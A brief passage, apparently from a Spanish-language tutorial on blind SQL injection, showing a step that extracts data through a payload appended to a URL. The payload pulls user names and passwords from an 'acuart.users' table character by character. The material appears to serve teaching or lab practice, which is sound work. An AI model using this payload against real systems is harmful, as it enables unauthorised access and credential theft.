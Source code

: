 ![av. cant. car. info.](/assets/img/screens/av_car_info1.png)

La cantidad de caracteres de la información a extraer es: 9

<br>
Extrayendo información:

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">AND substring((SELECT concat(name,',',pass) FROM acuart.users LIMIT 0,1),x,1)='x';#</font></pre>
